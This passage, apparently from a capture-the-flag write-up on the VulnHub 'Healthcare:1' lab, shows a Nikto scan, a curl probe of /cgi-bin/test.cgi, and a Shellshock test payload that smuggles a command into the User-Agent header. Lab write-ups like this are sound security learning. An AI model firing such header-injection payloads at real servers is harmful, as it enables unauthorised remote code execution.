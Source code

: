 Hmm... That directory can only be viewed from `localhost`?

**Nikto vulnerability scan:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|17:16:06(HKT)]
└> nikto -h $RHOSTS
[...]
+ /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
[...]
```

According to Nikto's scan result, the `/cgi-bin/test.cgi` seems like vulnerable to Shellshock vulnerability.

> Shellshock is a vulnerability in Bash shell, which allows attackers to achieve RCE (Remote Code Execution). 

**`/cgi-bin/test.cgi`:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|17:17:42(HKT)]
└> curl -s http://$RHOSTS/cgi-bin/test.cgi | html2text
Date: Mon Aug 21 10:17:44 2023
===============================================================================
****** It worked! ******
This script runs under: CGI/1.1
===============================================================================
ENV:
SCRIPT_NAME = /cgi-bin/test.cgi
SERVER_NAME = (Hidden for security purposes)
SERVER_ADMIN = (Hidden for security purposes)
REQUEST_METHOD = GET
HTTP_ACCEPT = */*
SCRIPT_FILENAME = (Hidden for security purposes)
SERVER_SOFTWARE = (Hidden for security purposes)
QUERY_STRING =
REMOTE_PORT = 48240
HTTP_USER_AGENT = curl/7.88.1
SERVER_SIGNATURE = Apache-AdvancedExtranetServer (Complete info hidden)
SERVER_PORT = (Hidden for security purposes)
REMOTE_ADDR = 10.69.96.100
SERVER_PROTOCOL = HTTP/1.1
PATH = (Hidden for security purposes)
REQUEST_URI = /cgi-bin/test.cgi
GATEWAY_INTERFACE = CGI/1.1
SERVER_ADDR = (Hidden for security purposes)
DOCUMENT_ROOT = (Hidden for security purposes)
HTTP_HOST = 10.69.96.76
MOD_PERL = (Hidden for security purposes)
UNIQUE_ID = ZOOcOH8AAAEAAAjc8GQAAAAE
```

As you can see, our request header `User-Agent` is reflected.

**We can try to send the following Shellshock payload:** (From [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi#curl-reflected-blind-and-out-of-band))
```bash
┌[siunam♥Mercury]-(~/ctf/VulnHub/Healthcare:1)-[2023.08.21|17:21:18(HKT)]
└> curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://$RHOSTS/cgi-bin/test.cgi
[...]
HTTP_USER_AGENT = () { :; }; echo "VULNERABLE TO SHELLSHOCK" <br>
[...]
```
